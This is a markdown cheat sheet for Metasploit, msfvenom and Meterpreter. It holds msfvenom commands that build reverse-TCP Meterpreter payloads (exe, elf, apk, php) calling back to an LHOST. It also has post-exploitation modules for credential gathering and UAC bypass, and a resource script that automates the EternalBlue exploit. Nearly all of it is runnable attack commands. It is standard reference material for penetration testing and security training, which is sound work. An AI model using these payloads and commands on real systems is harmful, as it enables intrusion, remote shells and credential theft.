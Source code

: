 ```markdown
# Metasploit, Msfvenom, and Meterpreter Command Cheat Sheet

## Table of Contents
- [Metasploit Framework Commands](#metasploit-framework-commands)
- [Msfvenom Payload Generation](#msfvenom-payload-generation)
- [Meterpreter Commands](#meterpreter-commands)
- [Post-Exploitation Modules](#post-exploitation-modules)
- [Resource Scripts](#resource-scripts)

## Metasploit Framework Commands

### Basic Commands
| Command | Description | Example |
|---------|-------------|---------|
| `msfconsole` | Start the Metasploit Framework | `msfconsole` |
| `search` | Search for modules | `search type:exploit platform:windows` |
| `use` | Select a module | `use exploit/windows/smb/ms17_010_eternalblue` |
| `info` | Show module information | `info` |
| `show options` | Display module options | `show options` |
| `show payloads` | Show compatible payloads | `show payloads` |
| `show targets` | Show supported targets | `show targets` |
| `show advanced` | Show advanced options | `show advanced` |

### Configuration Commands
| Command | Description | Example |
|---------|-------------|---------|
| `set` | Set an option | `set RHOSTS 192.168.1.1` |
| `setg` | Set a global option | `setg LHOST 192.168.1.5` |
| `unset` | Unset an option | `unset RHOSTS` |
| `unsetg` | Unset a global option | `unsetg LHOST` |
| `get` | Get the value of an option | `get RHOSTS` |
| `getg` | Get a global option value | `getg LHOST` |

### Execution Commands
| Command | Description | Example |
|---------|-------------|---------|
| `run`/`exploit` | Execute the module | `exploit` |
| `check` | Check if target is vulnerable | `check` |
| `back` | Exit the current module | `back` |
| `sessions` | Manage sessions | `sessions -l` |
| `jobs` | Manage background jobs | `jobs -l` |

## Msfvenom Payload Generation

### Basic Usage
| Command | Description | Example |
|---------|-------------|---------|
| `-p` | Specify payload | `-p windows/meterpreter/reverse_tcp` |
| `-f` | Output format | `-f exe` |
| `-o` | Output file | `-o payload.exe` |
| `-e` | Encoder | `-e x86/shikata_ga_nai` |
| `-i` | Iterations | `-i 5` |
| `-a` | Architecture | `-a x64` |
| `--platform` | Target platform | `--platform windows` |

### Common Payload Examples
```bash
# Windows reverse TCP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f exe -o payload.exe

# Linux reverse shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f elf -o payload.elf

# Android payload
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -o payload.apk

# Web payload (PHP)
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f raw -o payload.php
```

## Meterpreter Commands

### Core Commands
| Command | Description |
|---------|-------------|
| `help` | Show help menu |
| `background` | Background current session |
| `exit` | Terminate session |
| `sysinfo` | Show system information |
| `getuid` | Show current user |

### File System Commands
| Command | Description |
|---------|-------------|
| `cd` | Change directory |
| `pwd` | Print working directory |
| `ls` | List files |
| `upload` | Upload file |
| `download` | Download file |
| `edit` | Edit file |
| `cat` | View file contents |
| `rm` | Delete file |

### System Commands
| Command | Description |
|---------|-------------|
| `shell` | Get system shell |
| `execute` | Execute command |
| `getpid` | Get current process ID |
| `getprivs` | Get current privileges |
| `getsystem` | Attempt privilege escalation |
| `reboot` | Reboot system |
| `shutdown` | Shutdown system |

### Network Commands
| Command | Description |
|---------|-------------|
| `ipconfig`/`ifconfig` | Network interfaces |
| `portfwd` | Port forwarding |
| `route` | View/modify routing table |

### Privilege Escalation
| Command | Description |
|---------|-------------|
| `getsystem` | Attempt to get SYSTEM |
| `bypassuac` | Bypass UAC |
| `run post/windows/escalate/*` | Various escalation modules |

## Post-Exploitation Modules

### Windows Modules
```bash
run post/windows/gather/credentials
run post/windows/gather/enum_logged_on_users
run post/windows/gather/enum_shares
run post/windows/manage/enable_rdp
```

### Linux Modules
```bash
run post/linux/gather/enum_system
run post/linux/gather/checkvm
run post/linux/gather/enum_configs
```

### Multi Modules
```bash
run post/multi/recon/local_exploit_suggester
run post/multi/manage/autoroute
run post/multi/manage/shell_to_meterpreter
```

## Resource Scripts
```bash
# Create a resource file
echo "use exploit/windows/smb/ms17_010_eternalblue" > auto.rc
echo "set RHOSTS 192.168.1.1" >> auto.rc
echo "exploit" >> auto.rc

# Run the resource script
msfconsole -r auto.rc
```

## Notes
- For the most current commands, always check the built-in help (`help` in msfconsole or meterpreter)
- Many commands have additional options (use `-h` to see them)
- Meterpreter commands may vary slightly between different payload types

```

